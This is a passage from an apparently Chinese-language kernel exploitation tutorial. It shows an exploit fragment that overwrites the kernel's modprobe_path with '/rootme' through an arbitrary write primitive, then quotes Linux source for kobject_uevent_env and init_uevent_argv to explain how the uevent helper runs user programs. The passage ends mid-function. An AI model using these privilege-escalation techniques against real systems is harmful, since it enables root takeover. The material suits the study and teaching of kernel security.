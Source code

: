     size_t reboot_cmd_addr = 0xffffffff81e46ae0; // ffffffff81e46ae0 D modprobe_path
    char* buff = malloc(0x1000);
    memset(buff,'x00',0x1000);
    strcpy(buff,"/rootme");
    write_mem(fd,reboot_cmd_addr, buff,strlen(buff)+1);

`}`
</code></pre>
[![](https://img.lhyerror404.cn/error404/2020-05-01-060627.png)](https://img.lhyerror404.cn/error404/2020-05-01-060627.png)
</li>
<li>
`kobject_uevent_env`函数函数实现于`/v4.6-rc1/source/lib/kobject_uevent.c#L164`
<pre><code class="lang-c hljs cpp">/**
 * kobject_uevent_env - send an uevent with environmental data
 *
 * [@action](https://github.com/action): action that is happening
 * [@kobj](https://github.com/kobj): struct kobject that the action is happening to
 * [@envp_ext](https://github.com/envp_ext): pointer to environmental data
 *
 * Returns 0 if kobject_uevent_env() is completed with success or the
 * corresponding error when it fails.
 */
int kobject_uevent_env(struct kobject *kobj, enum kobject_action action,
               char *envp_ext[])
`{`

    ......

#ifdef CONFIG_UEVENT_HELPER
    /* call uevent_helper, usually only enabled during early boot */
    if (uevent_helper[0] &amp;&amp; !kobj_usermode_filter(kobj)) `{`
        struct subprocess_info *info;

        retval = add_uevent_var(env, "HOME=/");
        if (retval)
            goto exit;
        retval = add_uevent_var(env,
                    "PATH=/sbin:/bin:/usr/sbin:/usr/bin");
        if (retval)
            goto exit;
        retval = init_uevent_argv(env, subsystem);
        if (retval)
            goto exit;

        retval = -ENOMEM;
        info = call_usermodehelper_setup(env-&gt;argv[0], env-&gt;argv,
                         env-&gt;envp, GFP_KERNEL,
                         NULL, cleanup_uevent_env, env);
        if (info) `{`
            retval = call_usermodehelper_exec(info, UMH_NO_WAIT);
            env = NULL;    /* freed by cleanup_uevent_env */
        `}`
    `}`
#endif
    ......
`}`
</code></pre>
`init_uevent_argv`实现于`/source/lib/kobject_uevent.c#L129`
<pre><code class="lang-c hljs cpp">static int init_uevent_argv(struct kobj_uevent_env *env, const char *subsystem)
`{`
    int len;
